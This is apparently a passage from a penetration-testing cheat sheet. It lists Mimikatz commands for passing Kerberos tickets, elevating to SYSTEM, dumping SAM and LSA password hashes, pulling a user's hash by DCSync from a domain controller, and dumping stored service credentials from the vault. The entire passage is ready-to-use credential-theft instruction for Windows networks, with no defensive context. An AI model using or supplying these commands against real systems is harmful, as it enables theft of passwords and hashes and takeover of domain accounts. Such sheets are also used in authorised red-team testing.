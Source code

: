<span id="anchor-295"></span>MimiKatz Pass-the-Ticket (PTT) - Passing a
Ticket (Current Session)

<table>
<tbody>
<tr class="odd">
<td><p>privilege::debug</p>
<p>Kerberos::ptt <strong>&lt;ticketfile&gt;</strong></p></td>
</tr>
</tbody>
</table>

<span id="anchor-296"></span>MimiKatz Elivate to SYSTEM (Must be
Administrator)

|                |
| -------------- |
| token::elevate |

<span id="anchor-297"></span>MimiKatz Dump SAM (Live, Requires SYSTEM)

|              |
| ------------ |
| lsadump::sam |

<span id="anchor-298"></span>MimiKatz Dump SAM (From Backup)

|                                                 |
| ----------------------------------------------- |
| lsadump::sam **\<systemfile\>** **\<samfile\>** |

<span id="anchor-299"></span>MimiKatz Dump Specific User Hash (LSA)

|                                         |
| --------------------------------------- |
| lsadump::lsa /inject /name:**\<user\>** |

<span id="anchor-300"></span>MimiKatz Dump Specific User Hash (DC
Synchronization)

|                                                                    |
| ------------------------------------------------------------------ |
| lsadump::dcsync /domain:**\<domain FQDN**\> /user:**\<username\>** |

<span id="anchor-301"></span>MimiKatz Dump Service Password

<table>
<tbody>
<tr class="odd">
<td><p>privilege::debug</p>
<p>token::elevate</p>
<p>vault::cred /patch</p></td>
</tr>
</tbody>
</table>
